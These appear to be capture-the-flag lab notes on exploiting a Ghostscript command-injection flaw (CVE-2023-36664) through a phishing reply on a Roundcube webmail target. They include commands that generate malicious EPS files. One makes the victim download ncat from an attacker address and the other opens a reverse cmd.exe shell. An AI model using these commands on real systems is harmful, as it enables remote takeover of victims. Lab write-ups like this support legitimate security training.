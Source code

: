 ![[Pasted image 20250204174311.png]]
-Webmail RoundCube

---
Roundcube Webmail 1.6.4
Copyright © 2005-2022, The Roundcube Dev Team
This program is free software; you can redistribute it and/or modify it under the terms of the GNU General Public License as published by the Free Software Foundation, either version 3 of the License, or (at your option) any later version.

---
-Chris Brown found 
Dear Lucy,
design in an ".eps" file format so that it can be well
visualized with GhostScript.



---
### **Malicious .EPS File (Encapsulated PostScript Exploit)**

- `.EPS` files can contain **embedded scripts** that exploit vulnerabilities in **GhostScript**, a popular tool used to render `.eps` and `.ps` files.
- If the recipient opens the `.eps` file, it **could execute arbitrary code**, potentially allowing an attacker to gain control over their system.
- GhostScript has a history of **critical vulnerabilities** (e.g., CVE-2019-6116) that allow **remote code execution (RCE)** if exploited properly.

Attackers often use `.eps` files in **spear-phishing attacks** against designers, journalists, and companies using Adobe or GhostScript-based software.

GhostScript is an interpreter for **PostScript** and **PDF** files. It is commonly used for:

1. **Rendering PDFs & PostScript files** – GhostScript converts these formats into images or other printable formats.
2. **Manipulating PDFs** – It can merge, split, and modify PDFs.
3. **Converting file formats** – It can convert PostScript files (`.ps`) to PDFs and vice versa.
---
-search ghostscript eps exploit
https://github.com/jakabakos/CVE-2023-36664-Ghostscript-command-injection
---
```bash
host web python server + nc listner
┌──(pwn㉿kali)-[~]
└─$ python3 CVE_2023_36664_exploit.py -g -x eps -f file2 -p "curl http://10.10.14.5/ncat.exe -o nc.exe"
reply it in the email 
┌──(pwn㉿kali)-[~]
└─$ python3 CVE_2023_36664_exploit.py -g -x eps -f file3 -p "nc.exe -e cmd.exe 10.10.14.5 1337" 

[+] Generated EPS payload file: file3.eps

```
